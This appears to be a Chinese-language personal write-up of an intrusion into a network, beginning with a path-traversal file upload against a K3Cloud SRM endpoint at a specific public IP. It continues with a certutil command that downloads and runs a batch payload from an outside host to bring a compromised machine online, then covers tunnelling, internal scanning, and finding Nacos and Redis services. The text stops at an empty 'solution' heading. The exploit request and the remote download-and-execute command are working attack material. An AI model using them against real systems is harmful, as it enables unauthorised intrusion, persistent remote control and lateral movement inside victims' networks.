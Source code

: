 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令
![[fscan.txt]]

建立隧道，扫描内网
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702010409.png)

内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)


在nacos配置文件中，发现内网redis数据库。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702003105.png)

## 重新搭建内网隧道
三天后，发现vshell失效，并且内网隧道搭建失败,防火墙阻断了来自本远端ip的连接，或是阻断来自控制的内网主机的连接具体原因如下
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005609.png)
启动隧道，尝试测试隧道

```bash
┌──(root㉿localhost)-[/etc]
└─# curl --socks5-hostname 120.46.10.222:6028 192.168.30.31/nacos
<head><title>文档已移动</title></head>
<body><h1>对象已移动</h1>可在<a HREF="./k3Cloud/Error.html">此处</a>找到该文档</body>
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702005829.png)


## 解决方案
